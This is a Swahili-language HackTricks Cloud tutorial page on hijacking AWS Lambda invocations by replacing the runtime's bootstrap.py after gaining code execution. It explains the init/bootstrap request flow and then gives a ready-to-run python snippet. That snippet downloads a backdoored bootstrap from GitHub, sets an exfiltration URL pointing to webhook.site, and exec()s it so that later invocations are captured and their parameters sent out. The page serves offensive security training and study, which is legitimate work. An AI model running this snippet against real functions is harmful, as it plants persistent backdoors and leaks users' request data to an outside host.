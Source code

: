 # AWS - Kuiba Maombi ya Lambda

{% hint style="success" %}
Jifunze na fanya mazoezi ya Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Mchakato wa Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ni mchakato nje ya kontena ambao **hutuma** **invocations** kwa mchakato wa **init**.
2. Mchakato wa init husikiliza kwenye bandari **9001** ikifichua baadhi ya njia za kuvutia:
* **`/2018-06-01/runtime/invocation/next`** – pata tukio la invocation linalofuata
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – rudisha jibu la handler kwa invoke
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – rudisha kosa la utekelezaji
3. **bootstrap.py** ina mzunguko wa kupata invocations kutoka kwa mchakato wa init na kuita msimbo wa watumiaji kuushughulikia (**`/next`**).
4. Hatimaye, **bootstrap.py** hutuma kwa init **jibu**

Kumbuka kuwa bootstrap hupakia msimbo wa mtumiaji kama moduli, hivyo utekelezaji wowote wa msimbo unaofanywa na msimbo wa watumiaji unafanyika katika mchakato huu.

## Kuiba Maombi ya Lambda

Lengo la shambulio hili ni kufanya msimbo wa watumiaji utekeleze mchakato wa **`bootstrap.py`** wenye nia mbaya ndani ya mchakato wa **`bootstrap.py`** unaoshughulikia ombi lenye udhaifu. Kwa njia hii, mchakato wa **bootstrap wenye nia mbaya** utaanza **kuongea na mchakato wa init** kushughulikia maombi wakati **bootstrap halali** imekwama ikitekeleza ule wenye nia mbaya, hivyo haitauliza maombi kwa mchakato wa init.&#x20;

Hii ni kazi rahisi kufanikisha kwani msimbo wa mtumiaji unatekelezwa na mchakato halali wa **`bootstrap.py`**. Hivyo mshambuliaji anaweza:

* **Kutuma matokeo bandia ya invocation ya sasa kwa mchakato wa init**, hivyo init inadhani mchakato wa bootstrap unasubiri invocations zaidi.
* Ombi lazima litumwe kwa **`/${invoke-id}/response`**&#x20;
* Invoke-id inaweza kupatikana kutoka kwa stack ya mchakato halali wa **`bootstrap.py`** kwa kutumia moduli ya python [**inspect**](https://docs.python.org/3/library/inspect.html) (kama [inavyopendekezwa hapa](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) au kwa kuiomba tena kwa **`/2018-06-01/runtime/invocation/next`** (kama [inavyopendekezwa hapa](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Tekeleza **`bootstrap.py`** yenye nia mbaya ambayo itashughulikia invocations zinazofuata
* Kwa madhumuni ya kujificha, inawezekana kutuma vigezo vya lambda invocations kwa C2 inayodhibitiwa na mshambuliaji na kisha kushughulikia maombi kama kawaida.
* Kwa shambulio hili, inatosha kupata msimbo wa asili wa **`bootstrap.py`** kutoka kwa mfumo au [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), ongeza msimbo wenye nia mbaya na uutekeleze kutoka kwa invocation ya sasa ya lambda.

### Hatua za Shambulio

1. Pata udhaifu wa **RCE**.
2. Tengeneza **bootstrap** **yenye nia mbaya** (mfano [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Tekeleza** bootstrap yenye nia mbaya.

Unaweza kufanya vitendo hivi kwa urahisi kwa kuendesha:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Kwa maelezo zaidi angalia [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Marejeleo

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Saidi HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
